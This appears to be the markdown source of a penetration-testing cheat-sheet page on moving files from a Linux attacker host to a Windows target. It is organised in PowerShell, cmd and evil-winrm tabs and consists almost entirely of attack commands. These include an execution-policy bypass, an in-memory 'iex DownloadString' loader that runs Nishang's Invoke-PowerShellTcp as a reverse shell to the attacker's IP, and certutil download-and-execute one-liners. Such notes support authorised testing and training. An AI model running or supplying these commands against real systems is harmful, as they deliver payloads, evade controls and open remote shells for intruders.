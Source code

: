 ```yaml
---
title: "File Transfer (Linux to Windows)"
date: 2024-6-26
tags: ["file transfer", "Windows", "evil-winrm"]
---
```


{{< tab set1 tab1 active >}}Powershell{{< /tab >}}
{{< tab set1 tab2 >}}cmd{{< /tab >}}
{{< tab set1 tab3 >}}evil-winrm{{< /tab >}}
{{< tabcontent set1 tab1 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
# Invoke-WebRequest
iwr http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: PowerShell 3.0+*</small>

```console
# Curl
powershell -ep bypass curl <LOCAL_IP>:<LOCAL_PORT>/<FILE> -o C:\ProgramData\<FILE>
```

<small>*Note: curl is not always available*</small>

```console
# Load into memory and Run
```

```console
# Invoke-Expression
iex (New-Object Net.WebClient).DownloadString('http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1');Invoke-PowerShellTcp -Reverse -IPAddress <LOCAL_IP> -Port <LOCAL_PORT>
```

```console
# Short version
iex (iwr http://<LOCAL_IP>:<LOCAL_PORT>/rev.ps1)
```

<small>*Ref: [rev.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)*</small>

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

#### Start a Local HTTP Server

```console
python3 -m http.server <LOCAL_PORT>
```

<br>

```console
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE>
```

```console
# Upload and Run
certutil -urlcache -split -f http://<LOCAL_IP>:<LOCAL_PORT>/<FILE> C:\ProgramData\<FILE> && C:\ProgramData\<FILE>
```

{{< /tabcontent >}}
{{< tabcontent set1 tab3 >}}

```console
# Evil-winrm built-in function
upload '<LOCAL_FILE_PATH>' "C:\ProgramData\<FILE>"
```

{{< /tabcontent >}}
